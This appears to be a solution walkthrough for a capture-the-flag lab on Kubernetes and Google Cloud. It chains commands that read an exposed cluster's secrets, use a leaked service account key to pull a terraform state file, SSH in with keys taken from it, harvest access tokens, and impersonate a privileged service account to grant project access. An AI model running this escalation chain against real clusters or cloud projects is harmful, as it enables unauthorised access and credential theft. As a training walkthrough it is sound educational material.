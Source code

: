 # Challenge 1

1. cluster already has endpoints exposed to internet:  
`curl -k https:<IP>/version` for example works without an access token (accessible by system:anonymous)
2. some endpoints are in the system:authenticated group:  
`curl -k https:<IP>/api` returns a 403, but any access token is enough to access the endpoint:  
`curl -k -H "Authorization:Bearer <token> https://<IP>/api"`
3. check what you can access:  
`curl -X POST -H "Content-Type: application/json" -d '{"apiVersion":"authorization.k8s.io/v1", "kind":"SelfSubjectRulesReview", "spec":{"namespace":"*"}}' -k -H "Authorization:Bearer <token>" https://<cluster IP>/apis/authorization.k8s.io/v1/selfsubjectrulesreviews`
4. access secrets  
`curl -k -H "Authorization:Bearer <token>" https://<IP>/api/v1/secrets`  
5. access configmaps to gain more info on the deployment - for example which storage bucket it uses.

To get an access token for your google login, you can use the [oauth playground](https://developers.google.com/oauthplayground/).  
Choose the Kubernetes Engine API v1 endpoint and exchange your authorization code for an access token.

# Challenge 2

1. The exposed kubernetes secret contains a service account key. The service account key also contains the ID of the vulnerable gcp project
2. Access the storage bucket using the service account key:  
`gcloud auth activate-service-account --key-file <path-to-file>`  
`gsutil ls gs://<bucket>`  
`gsutil cp gs://<bucket>/terraform.tfstate ./`

# Challenge 3

1. Get the compute IP address, username and SSH key from the terraform state file
2. SSH into the VM: `ssh -i <key> alice@<ip>`
3. Check the service account and access scopes that the VM is using:  
`gcloud auth list`  
`gcloud auth print-access-token`  
`curl -i https://www.googleapis.com/oauth2/v3/tokeninfo\?access_token=$TOKEN`
4. Find that you are able to access all storage buckets with this account. On one storage bucket you can find the source code of a cloud function.

# Challenge 4

1. Find that the VM calls a cloud function (from hint on the VM)
2. You will be able to call the function using the VMs identity token: `gcloud auth print-identity-token`
3. The function will leak its own access token
4. Use the tokeninfo endpoint again to find what this token can do: `curl -i https://www.googleapis.com/oauth2/v3/tokeninfo\?access_token=$TOKEN`
5. It uses the compute default service account with the full cloud-platform access scope. This account also has the `roles/compute.serviceAgent` role of the compute engine service agent, allowing service account impersonation on all service accounts in the project. To find out the permissions you have on project level run: `gcloud projects get-iam-policy <project-id>`

# Challenge 5

1. When listing the IAM policies on the project, another powerful service account is revealed. The `terraform-pipeline` service account has a highly privileged custom role that allows setting new IAM bindings on project level.
2. Impersonate that service account and add yourself as viewer to the GCP project:  
`gcloud projects add-iam-policy-binding <project-id> --member=user:<your user> --role=roles/viewer --condition=None --impersonate-service-account <terraform pipeline account>`
